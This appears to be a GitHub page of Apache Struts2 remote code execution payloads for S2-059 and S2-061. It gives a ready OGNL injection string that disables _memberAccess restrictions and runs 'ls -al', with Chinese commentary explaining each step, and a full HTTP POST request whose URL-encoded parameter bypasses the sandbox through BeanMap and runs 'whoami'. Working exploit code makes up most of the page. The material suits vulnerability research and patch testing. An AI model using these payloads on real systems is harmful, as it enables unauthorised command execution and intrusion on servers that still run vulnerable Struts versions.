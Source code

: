 ## S2-059

```java
%{11*11}
```

```java
%{#_memberAccess.allowPrivateAccess=true,#_memberAccess.allowStaticMethodAccess=true,#_memberAccess.excludedClasses=#_memberAccess.acceptProperties,#_memberAccess.excludedPackageNamePatterns=#_memberAccess.acceptProperties,#res=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#a=@java.lang.Runtime@getRuntime(),#s=new java.util.Scanner(#a.exec('ls -al').getInputStream()).useDelimiter('\\\\A'),#str=#s.hasNext()?#s.next():'',#res.print(#str),#res.close()
}
```

> 由于OgnlContext的_memberAccess变量进行了访问控制限制,决定了用哪些类,哪些包,哪些方法可以被OGNL表达式所使用.所以其中poc中需要设置#_memberAccess.allowPrivateAccess=true用来授权访问private方法.

> 首先设置_memberAccess的allowStaticMethodAccess属性为true用来开启允许调用静态方法.然后设置_memberAccess的excludedClasses属性值为_memberAccess的acceptProperties属性值用来将受限的类名设置为空.继续设置_memberAccess的excludedPackageNamePatterns属性值为_memberAccess.acceptProperties的属性值用来将受限的包名设置为空.

> 剩下的流程就是调用org.apache.struts2.ServletActionContext的getResponse().getWriter()方法返回HttpServletResponse实例的respons对象.接下来是调用java.lang.Runtime类的getRuntime方法获取一个getRuntime对象,之后以ls -al为参数调用getRuntime的exec执行命令的字节流为参数新建一个java.util.Scanner类的对象,用来获取输入.由于Scanner对象将首先跳过输入流开头的所有空白分隔符,然后对输入流中的信息进行检查,直到遇到空白分隔符为止.所以为了获取完整的执行结果,需要重新设置输出字符串的分隔符,所以以\\\\\\\\A为参数调用Scanner对象的useDelimiter方法来指定输出字符串的分隔符.接下来是一个三元表达式,如果s.hasNext()有输入则把对象的s输入赋值给str,否则把空值给str,然后调用对象res的print输出str的值,然后关闭对象res.

## S2-061

```html
POST /s2_061_war_exploded/index.action;jsessionid=79E61355244F9B654BF1EDF344179E2A HTTP/1.1
Host: localhost:8080
Content-Length: 900
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/s2_061_war_exploded/index.action
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=79E61355244F9B654BF1EDF344179E2A
Connection: close

name=%25%7B%28%27Powered_by_Unicode_Potats0%2Cenjoy_it%27%29.%28%23UnicodeSec+%3D+%23application%5B%27org.apache.tomcat.InstanceManager%27%5D%29.%28%23potats0%3D%23UnicodeSec.newInstance%28%27org.apache.commons.collections.BeanMap%27%29%29.%28%23stackvalue%3D%23attr%5B%27struts.valueStack%27%5D%29.%28%23potats0.setBean%28%23stackvalue%29%29.%28%23context%3D%23potats0.get%28%27context%27%29%29.%28%23potats0.setBean%28%23context%29%29.%28%23sm%3D%23potats0.get%28%27memberAccess%27%29%29.%28%23emptySet%3D%23UnicodeSec.newInstance%28%27java.util.HashSet%27%29%29.%28%23potats0.setBean%28%23sm%29%29.%28%23potats0.put%28%27excludedClasses%27%2C%23emptySet%29%29.%28%23potats0.put%28%27excludedPackageNames%27%2C%23emptySet%29%29.%28%23exec%3D%23UnicodeSec.newInstance%28%27freemarker.template.utility.Execute%27%29%29.%28%23cmd%3D%7B%27whoami%27%7D%29.%28%23res%3D%23exec.exec%28%23cmd%29%29%7D&age=
```
